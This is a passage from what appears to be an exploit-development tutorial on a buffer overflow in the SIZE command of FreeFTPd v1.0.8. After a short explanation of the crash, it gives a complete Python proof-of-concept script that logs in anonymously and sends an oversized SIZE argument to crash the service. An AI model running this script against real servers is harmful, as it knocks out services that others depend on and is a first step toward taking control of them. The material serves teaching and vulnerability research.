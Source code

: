So here we can see the last bit of data sent to the stack was "SIZE AAAAAA(1000 times)\n". What's interesting is that this crash does not happen at all if we remove a newline from the end of the buffer (hex byte "\x0a"). That's an interesting piece of information that will be important later. Now that we know what is causing the crash, we should be able to take out the rest of the junk in the fuzzer and presto exploito. 

```python
#!/usr/bin/env python
"""
Description: Post-Authenticated Buffer Overflow via "SIZE" Command in FreeFTPd v1.0.8
Author: Cody Winkler
Contact: @c2thewinkler
Date: 11/26/2019
Tested On: Windows XP SP2 EN

[+] Usage: python expoit.py <IP> <PORT>

$ python exploit.py 127.0.0.1 21
"""

import socket
from struct import pack
import sys

host = sys.argv[1]
port = int(sys.argv[2])

username = "USER anonymous\r\n"
password = "PASS test\r\n"

command = "SIZE "

buffer = "A"*1000
buffer += "\x0a"


try:

    print "[+] Connecting to target"
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    print s.recv(1024)
    s.send(username)
    print s.recv(1024)
    s.send(password)
    s.recv(1024)
    s.send(command + buffer)
    print "[+] Sent " + command + "payload with length: %d" % len(buffer)
    s.close()

except:
    print "[-] Failed to connect to destination FreeFTPD Service"
```
